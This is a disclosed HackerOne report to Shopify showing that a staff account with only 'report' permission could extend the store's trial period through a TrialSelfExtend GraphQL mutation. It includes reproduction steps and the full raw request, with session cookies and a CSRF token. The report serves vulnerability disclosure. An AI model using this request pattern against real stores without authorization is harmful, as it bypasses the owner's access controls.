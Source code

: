# staff can able to extend shopify trial period without admin permission

## Report Details
- **Report ID**: 947728
- **URL**: https://hackerone.com/reports/947728
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-07-30T09:53:49.689Z
- **Disclosed**: 2020-09-15T02:15:16.291Z

## Reporter
- **Username**: risinghunter
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Description: my store 14 days trial subscription remains only for 2 days and I see  Shopify also offers shop admin to extend shop trial period to another 14 days. so, I found an issue in which staff with no permission also able to extend trial period without admin permission

steps to reproduce :
--
1). add staff only "report" permission
{F930056}
2). then added staff isn't able to do any activity related to subscription/plan
{F930054}
3). run following TrialSelfExtend Graphql request through added staff account 
███████

```
POST /admin/internal/web/graphql/core HTTP/1.1
Host: risinghunter.myshopify.com
Connection: close
Content-Length: 218
accept: application/json
X-CSRF-Token: H9hN7Wt7-0Q1PwBhOsOIZMpEcCnp0WZQw8BM
content-type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
X-Shopify-Web-Force-Proxy: 1
Origin: https://risinghunter.myshopify.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,ru;q=0.7
Cookie: new_admin=1; new_theme_editor_disabled.sig=c0lGzzh0MFBQ5fCQTfz7yqvtriw; new_theme_editor_disabled=1; _abv=0; _master_udr=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaEpJaWxpT1dWbU4yWmtOQzFsTVdFMUxUUmlOekV0WWprMVppMW1PV1ExTm1Jd00yRXhZMllHT2daRlJnPT0iLCJleHAiOiIyMDIyLTA3LTI4VDA3OjEwOjAyLjAyOFoiLCJwdXIiOiJjb29raWUuX21hc3Rlcl91ZHIifX0%3D--aaa21a6f8ca759e8780b581506af5e6b544b851d; _secure_admin_session_id_csrf=9b14248b770db62cc190e3e264362b12; _secure_admin_session_id=9b14248b770db62cc190e3e264362b12; koa.sid=vOD0te0oCONZnKFY8VZeCFGM5sWIbwYB; koa.sid.sig=-qd5DD-YfKDTMZz7LHyxOu7MMsE; _orig_referrer=; _shopify_y=be3905ce-c786-4135-a98c-f4c292fed5bf; _y=be3905ce-c786-4135-a98c-f4c292fed5bf; _landing_page=%2Fadmin%2Fauth%2Flogin%3Faccountnumber%3D0%26from_signup%3Dtrue; __ssid=831ecb8b-307e-4640-af0a-80bfa7b89894; _y=be3905ce-c786-4135-a98c-f4c292fed5bf; _shopify_y=be3905ce-c786-4135-a98c-f4c292fed5bf; _shopify_fs=2020-07-17T04%3A36%3A57.584Z; cart_ver=%3A0; secure_customer_sig=; cart_sig=; new_theme_editor_disabled=1; _ga=GA1.2.1368468577.1594960719; _abv=0; _ab=1; storefront_digest=██████████; _secure_session_id=05214efc7671b79b95c5540b7cde58c2; __cfduid=dd29f3357820fab55e8a97634eec973941595927106

{"operationName":"TrialSelfExtend","variables":{},"query":"mutation TrialSelfExtend {\n  trialSelfExtend {\n    message\n    userErrors {\n      field\n      message\n      __typename\n    }\n    __typename\n  }\n}\n"}
```
4). after running above request you get the response "14 days extension added to your trial period"
{F930055}

## Impact

staff can able to extend Shopify trial period without admin permission

## Attachments
- subscription.png
- trial.png
- permission.png
